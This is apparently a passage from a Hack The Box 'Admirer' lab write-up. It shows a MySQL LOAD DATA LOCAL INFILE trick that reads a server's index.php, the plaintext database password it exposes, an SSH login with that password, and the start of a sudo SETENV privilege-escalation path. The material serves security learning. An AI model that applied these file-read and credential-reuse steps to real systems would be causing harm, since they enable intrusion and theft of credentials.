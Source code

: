 From here, we just need to create a test table that takes one column of VARCHAR. Now we can execute the SQL command to read files. One file of interest is the `index.php` from before which had invalid credentials.

```SQL
LOAD DATA LOCAL INFILE '../index.php' 
INTO TABLE test
FIELDS TERMINATED BY "\n"
```

If we go to our test table, we can see the contents of the live version of this file and get the new credentials.

```
$servername = "localhost";
$username = "waldo";
$password = "&<h5b~yK3F#{PaPB&dA}{H>";
$dbname = "admirerdb";
```

These credentials turned out to be waldo's current credentials and we can SSH as him now and get the flag.

```
# ssh waldo@admirer.htb 
waldo@admirer.htb's password: 
Linux admirer 4.9.0-12-amd64 x86_64 GNU/Linux
Last login: Sun May 24 20:35:48 2020 from 10.10.15.17
waldo@admirer:~$ ls
user.txt
waldo@admirer:~$ cat user.txt
4bbd12**************************
```

## Root

We can start our privilege escalation enumeration through some basic techniques and find something interesting.

```
waldo@admirer:~$ sudo -l
[sudo] password for waldo: 
...
User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
```

We are allowed to run the `admin_tasks.sh` as anybody and set environment variables as well. Let's take a look at this file for interesting sections. One of those sections is the `backup_web` function which calls another file in the `/opt/scripts` directory.

```bash
# admin_tasks.sh

backup_web()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Running backup script in the background, it might take a while..."
        /opt/scripts/backup.py &
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}
```
